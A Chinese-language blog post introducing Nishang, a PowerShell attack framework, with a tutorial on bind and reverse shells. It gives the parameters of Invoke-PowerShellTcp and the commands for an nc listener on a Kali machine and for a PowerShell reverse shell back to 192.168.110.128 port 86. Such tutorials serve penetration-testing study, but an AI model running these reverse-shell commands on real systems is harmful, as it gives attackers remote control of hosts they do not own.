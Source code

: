 ```yaml
---
layout: post
title: "Nishang渗透神器"
categories:
- 今日头条
tags:
---
```

![](http://p2.pstatp.com/large/11100005c21de1823ed9)

前言

Nishang是一个PowerShell攻击框架，它是PowerShell攻击脚本和有效载荷的一个集合。Nishang被广泛应用于渗透测试的各个阶段，本文主要介绍如何使用Nishang的各种姿势获取一个shell。 

正向连接and反向连接

新手肯定都有这个疑问，什么时候用正向连接，什么时候用反向连接呢？其实很简单：

目标在外网而你在内网的时候，用正向连接。

目标在内网而你在外网的时候，用反向连接。

都在外网的时候，两种方式皆可。

Powershell交互式Shell

一、基于TCP协议的Powershell交互式Shell

Invoke-PowerShellTcp是PowerShell交互式正向连接或反向连接shell，基于TCP协议。

参数介绍：

1234-IPAddress <String> 选择-Reverse选项时是需要连接到的IP地址-Port <Int32> 选择-Reverse选项时是需要连接到的端口，选择-Bind选项时是需要监听的端口。-Reverse [<SwitchParameter>] 反向连接-Bind [<SwitchParameter>] 正向连接

使用实例：

1. 正向连接

第一步：在目标机运行脚本，监听端口86

![](http://p1.pstatp.com/large/110e00064ad560863d85)

第二步：使用nc连接到目标机端口86

![](http://p3.pstatp.com/large/11110002ca1c3afb0e72)

2. 反向连接

第一步：使用nc监听本地端口86（注意必须先监听，不然在目标机上执行脚本会出错）

1root@kali:~# nc -ltp 86

第二步：在目标机上反弹shell

1Invoke-PowerShellTcp -Reverse -IPAddress 192.168.110.128 -Port 86

第三步：观察攻击机，可以发现成功反弹shell
